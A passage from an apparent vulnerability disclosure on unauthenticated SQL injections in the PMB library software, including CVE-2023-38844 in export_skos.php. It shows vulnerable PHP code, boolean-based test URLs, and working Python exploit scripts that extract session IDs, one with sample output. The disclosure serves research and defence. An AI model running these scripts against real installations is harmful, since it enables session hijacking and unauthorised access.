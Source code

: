 ```python
            notice_id = random.randint(1, 300)
            result = exploit(notice_id)
            if args.verbose:
                print("Fuzzing notice_id: {0}, Result={1}".format(notice_id, result))
            if result:
                break
```

The result of the script returns a list of sessions:

```text
root@ubuntu:/var/www/html/pocs# python3 Union-SQLI-export_z3950.py http://127.0.0.1/pmb/
['1886627101', '3239147683', '3324994107', '3788863056', '4604414197', '5080229282', '7066911231', '7152832893']
```

***

### CVE-2023-38844: SQL Injection in export_skos.php

Finishing with unauthenticated SQL injections, the following vulnerability is detailed, which refers to a SQL injection through the thesaurus parameter of the **/devel/export_skos.php** path.

When analyzing the code of the **/devel/export_skos.php** file, it is possible to observe the unsafe concatenation of a user-supplied input (the **$numt** variable) in an SQL query.

```php
$numt = $_GET["thesaurus"];
(...)

$res = pmb_mysql_query("select * from thesaurus where id_thesaurus=".$numt);
$rt = pmb_mysql_fetch_object($res);
```

To verify the existence of this vulnerability, a boolean-based SQL injection technique can be used as in the previous case (SQL Injection in **/admin/convert/export_z3950.php**).

```text
True condition (content is returned): 
http://host/devel/export_skos.php?tname=%0a&prefix=&thesaurus=1%20or%201=1

False condition (returned content is empty):
http://host/devel/export_skos.php?tname=%0a&prefix=&thesaurus=1%20or%201=2
```

Additionally, after confirming the existence of the vulnerability, the session cookies are extracted with the following script (using a union-based SQL injection technique).

```python
#!/usr/bin/env python3
import warnings
warnings.filterwarnings("ignore")
import requests
import sys
import re
import random
import argparse

def exploit():
    for i in range(3,15):
        columns = "1," * i
        url = "{0}/devel/export_skos.php?tname=%0a&prefix=&thesaurus=1+union+select+1,(select+group_concat(SESSID,'\\n')+COLLATE+utf8_general_ci+from+sessions),{1}+limit+1,1".format(args.pmb_url, columns[:-1])
        headers = {"Connection": "close"}
        r = requests.get(url, headers=headers)
        sessid_list = re.findall('\d{10}', r.text)
        if sessid_list:
```